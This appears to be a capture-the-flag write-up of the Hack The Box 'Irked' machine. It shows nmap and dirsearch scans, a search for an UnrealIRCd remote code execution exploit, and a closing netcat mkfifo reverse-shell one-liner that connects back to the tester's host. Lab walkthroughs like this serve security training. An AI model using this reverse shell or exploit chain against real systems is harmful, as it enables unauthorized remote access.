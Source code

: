 ## ---------------->> Irked <<-----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.117 -p-
-------

    Nmap scan report for 10.10.10.117
    Host is up (0.39s latency).
    Not shown: 65444 closed ports, 84 filtered ports
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
    |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
    |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
    |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
    80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
    |_http-server-header: Apache/2.4.10 (Debian)
    |_http-title: Site doesn't have a title (text/html).
    111/tcp   open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          43569/tcp6  status
    |   100024  1          47827/tcp   status
    |   100024  1          54210/udp6  status
    |_  100024  1          57310/udp   status
    6697/tcp  open  irc     UnrealIRCd
    8067/tcp  open  irc     UnrealIRCd
    47827/tcp open  status  1 (RPC #100024)
    65534/tcp open  irc     UnrealIRCd
    Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.117/ , represent us with a picture

![Image 1]()

// Lets search for some directories or files with [dirsearch](https://github.com/maurosoria/dirsearch) Tool (By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.117/ -i 100-400 -t 100
--------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.117/_21-08-22_21-09-54.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-08-22_21-09-54.log

    Target: http://10.10.10.117/

    [21:09:56] Starting: 
    [21:10:15] 200 -   72B  - /index.html
    [21:10:17] 200 -  626B  - /manual/index.html
    [21:10:17] 301 -  313B  - /manual  ->  http://10.10.10.117/manual/

// Navigating to http://10.10.10.117/manual/ , represent us with apache 2.4 manual

![Image 2]()

// Nothing much there, lets move on.

// We notice also we have service called UnrealIRCd on ports 6697,8067,65534

    6697/tcp  open  irc     UnrealIRCd
    8067/tcp  open  irc     UnrealIRCd
    65534/tcp open  irc     UnrealIRCd

// Lets search for exploit for UnrealIRCd service on [ExploitDB](https://www.exploit-db.com)

// We see that this service vulnerable to remote code execution
the
![Image 3]()

// Checking the [exploit](https://www.exploit-db.com/exploits/13853) we can see that all he does its to open a socket to connect with,

// and run payload with 'AB' at the start

![Image 4]()

// Now can make our own payload, i used [Revshells](https://www.revshells.com/) help(recipe: nc reverse mkfifo)

![Image 5]()

// Lets try this 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.232 1444 >/tmp/f
